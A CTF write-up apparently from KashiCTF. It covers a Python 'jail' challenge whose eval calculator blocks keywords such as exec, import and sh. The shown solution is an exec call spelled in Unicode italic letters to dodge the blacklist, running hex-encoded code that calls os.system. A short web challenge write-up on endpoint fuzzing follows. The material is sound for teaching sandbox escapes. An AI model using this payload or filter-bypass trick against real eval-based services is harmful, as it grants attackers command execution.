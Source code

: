 chall.py
```python
BLACKLIST = ["open", "input", "eval", "exec", "import", "getattr", "sh", "builtins", "global"]
def calc(op):
    try: 	
        res = eval(op)
    except Exception as e:
        return print("Wrong operation", e)
    return print(f"{op} --> {res}")

def main():
    while True :
        inp = input(">> ")
        if any(bad in inp for bad in BLACKLIST) :
            print("Are you tying to hack me !!!!!")
        else : 
            calc(inp)

if __name__ == '__main__':
	main()#!/usr/bin/env python3
```

> similar to first chall but added string blacklist 

solution 
create solve.py that generates payload to hex, then italicize the payload. italizing everything should work. but i wanted to find solution without exec, but the global ban is just annoying 

```python
𝘦𝘹𝘦𝘤(bytes.fromhex('676c6f62616c20663b2066203d206c616d6264613a205f5f696d706f72745f5f28276f7327292e73797374656d28276c732729').decode())
```
learned how running inline lambda though, and the globals functions usecases in bypassing jails 

KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_v4Ratwt3}
# Web
## Corporate Life 1 
The Request Management App is used to view all pending requests for each user. It’s a pretty basic website, though I heard they were working on something new.

Anyway, did you know that one of the disgruntled employees shared some company secrets on the Requests Management App, but it's status was set _denied_ before I could see it. Please find out what it was and spill the tea!

`This Challenge unlocks another challenge in this Series`

### solution
Started with fuzzing api endpoints and parameters while fuzzing i found an interesting endpoint from the javascript source files `/_next/static/bkat3_n9dfvE_URrWvN1g/_buildManifest.js`

![](_attachments/Pasted%20image%2020250223120710.png)
